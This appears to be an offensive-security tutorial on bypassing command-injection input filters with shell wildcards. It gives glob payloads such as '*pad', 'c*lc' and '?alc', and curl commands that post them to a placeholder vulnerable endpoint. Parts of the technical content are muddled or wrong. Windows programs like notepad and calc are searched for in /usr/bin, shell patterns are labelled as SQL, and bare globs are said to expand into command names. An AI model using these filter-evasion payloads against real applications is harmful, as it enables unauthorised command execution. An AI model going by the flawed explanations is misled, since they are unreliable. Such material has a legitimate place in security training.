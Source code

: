 ```yaml
---
title: Bypass Command Injection Using Wildcards
description: Learn to exploit command injection vulnerabilities by bypassing input
  filters using shell wildcards for unauthorized command execution.
keywords:
- command injection
- wildcard bypass
- shell globbing
- input filter evasion
- web application security
- pattern matching exploit
- cybersecurity
---
```


# Bypass With Wildcards

## Context

The technique of bypassing with wildcards is a method commonly used in command injection attacks against web applications. Attackers exploit input filters by leveraging shell wildcards, also known as globbing patterns, to execute commands that would otherwise be blocked by input validation mechanisms. This guide assumes you are familiar with how wildcards work in Unix-like shells, the basics of command injection, and executing commands through injection points.

## Theory

### Wildcard Mechanisms in Shells

Wildcards are special characters used in shell environments to match filenames or arguments. The most commonly used wildcards include:
- `*`: Matches zero or more characters.
- `?`: Matches a single character.
- `[]`: Matches any one of the enclosed characters.

Shells expand these wildcards before executing a command, which means they can be used to circumvent input filters by constructing alternates of filtered command names.

### Globbing Patterns for Filter Bypass

Globbing refers to the shell's process of expanding wildcard patterns into matching filenames or arguments. In the context of a filter bypass, attackers can craft payloads using these patterns to circumvent restrictions:
- If the application blocks the word "notepad," using a pattern like `*pad` or `n*pad` may still allow the unintended execution if such a file exists on the system.

### Command Injection Bypass via Wildcards

Attackers typically follow these steps to exploit wildcards in command injection scenarios:
1. **Identify Filter Restrictions**: Determine which command names or strings are being filtered.
2. **Enumerate Potential Matches**: Use command-line tools to find binaries or files that match desired patterns.
3. **Inject Wildcard Payloads**: Use wildcard patterns to bypass input filters, allowing the shell to expand these patterns into executable command names.

## Practice

### Bypassing Command Filters Using Shell Wildcards (Globbing)

To exploit a scenario where the application blocks the string "notepad":

- Enumerate available binaries to confirm "notepad" exists:
  ```bash
  ls /usr/bin/ | grep pad
  ```

- Use the wildcard payload as input to trigger expansion:
  ```sql
  *pad
  ```

- Inject the payload into the vulnerable web application endpoint:
  ```bash
  curl -X POST -d 'cmd=*pad' http://target-app/vuln-endpoint
  ```

- Check if "notepad" was successfully opened or executed.

### Bypassing Filters for Calculator Using Wildcard Patterns

If "calc" is blacklisted:

- Use a wildcard pattern that matches "calc":
  ```sql
  c*lc
  ```

- Inject this pattern to trigger command execution:
  ```bash
  curl -X POST -d 'cmd=c*lc' http://target-app/vuln-endpoint
  ```

- Observe the execution of the calculator application.

### General Globbing Bypass for Arbitrary Commands

To bypass filters for arbitrary commands:

- Identify potential wildcard patterns:
  ```bash
  ls /usr/bin/ | grep <pattern>
  ```

- Use a single-character wildcard for a command like "calc":
  ```sql
  ?alc
  ```

- Inject the pattern to achieve execution:
  ```bash
  curl -X POST -d 'cmd=?alc' http://target-app/vuln-endpoint
  ```

- Confirm command execution by observing expected outcomes.

## Tools

- **curl**: A command-line tool used to transfer data with URLs, essential for injecting payloads into web application endpoints during these exercises.